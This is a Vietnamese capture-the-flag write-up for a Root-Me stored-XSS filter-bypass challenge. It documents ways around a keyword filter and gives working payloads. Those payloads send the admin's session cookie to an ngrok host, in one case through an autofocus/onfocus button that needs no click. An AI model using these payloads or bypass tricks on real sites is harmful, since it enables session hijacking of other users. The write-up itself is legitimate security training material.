







# Challenge: XSS - Stored - filter bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 180 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass

- Mở đầu ta thử lưu câu lệnh `<h1>Nguyễn Ngọc Trưởng</h1>`, ta thấy nội dung lưu có định dạng của thẻ h1
<p align="center"></p>

- Tiếp tục thử lưu `<h1 onclick=alert(1)>Nguyễn Ngọc Trưởng 2</h1>` --> Hacker detected!

- Để khắc phục ta thử với `<h1 onclick=(alert)(1)>Nguyễn Ngọc Trưởng 2</h1>` thì thấy đã thực hiện được lệnh `alert(1)`
<p align="center"></p>

- `<h1 onclick=(alert)(document.cookie)>Nguyễn Ngọc Trưởng</h1>` -->Hacker detected!

- Thử in ra thông báo với 1 chuỗi, ta nhập `<h1 onclick=(alert)("document")>Nguyễn Ngọc Trưởng 2</h1>` -->Hacker detected!
--> Ta có thể khác phục lỗi này bằng cách sử dụng các kí tự đặc biệt (chuyển " = `&quot;`)
https://www.htmlhelp.com/reference/html40/entities/special.html

`<h1 onclick=(alert)(&quot;document&quot;)>Nguyễn Ngọc Trưởng</h1>`
<p align="center"></p>

- Thử thực hiện thêm chuỗi câu lệnh, thực hiện với content= `<h1 onclick=(alert)(&quot;Lệnh1&quot;);(alert)(&quot;document&quot;)>Nguyễn Ngọc Trưởng</h1>`, khi đó ta thấy được 2 thông báo --> ta có thể chèn nhiều câu lệnh

- Vì ta không thể in ra cookie, có thể do từ khóa document bị lọc, mạnh dạng test với content = `<h1 onclick=doc=document;(alert)(doc.cookie)>Nguyễn Ngọc Trưởng</h1>` --> Ta cùng thực hiện được việc in ra cookie
<p align="center"></p>

- Do vậy để thực hiện việc lấy cookie của admin, giống như những bài XSS Stored đã làm, ta cần thực hiện chèn được đoạn script sau
```
doc=document;
doc.location="http://dca6-113-161-73-246.ngrok.io/?cookie=".concat(doc.cookie)
```

- Chuyển đổi kí tự `"` ta được `doc=document;doc.location=&quot;http://dca6-113-161-73-246.ngrok.io/?cookie=&quot;.concat(doc.cookie)`
Khi đó content cần phải nhập là: `<h1 onclick=doc=document;doc.location=&quot;http://dca6-113-161-73-246.ngrok.io/?cookie=&quot;.concat(doc.cookie)>Hack</h1>`. 
<p align="center"></p>

- Vì thuộc tính demo ban đầu là click nên yêu cầu chúng ta cần phải nhấn vào đường dẫn, ta sẽ dùng thuộc tính focus gồm autofocus và onfocus của thẻ button để có thể tự động thực hiện đoạn script: Khi đó ta nhập với content là:
<button autofocus onfocus=doc=document;doc.location=&quot;http://dca6-113-161-73-246.ngrok.io/?cookie=&quot;.concat(doc.cookie)>Nguyễn Ngọc Trưởng</button>
<p align="center"></p>

- Chờ đợi kết quả ở máy chủ PHP, ta thấy được có 2 PHPSESSID của admin đã gởi 
<p align="center"></p>

- Nộp lần lượt 2 PHPSESSID này vào challenge, ta thấy flag là PHPSESSID thứ 2 = `qa26f3ugb5tqv7o0mbvtv414u8`

## Kết quả flag là `qa26f3ugb5tqv7o0mbvtv414u8`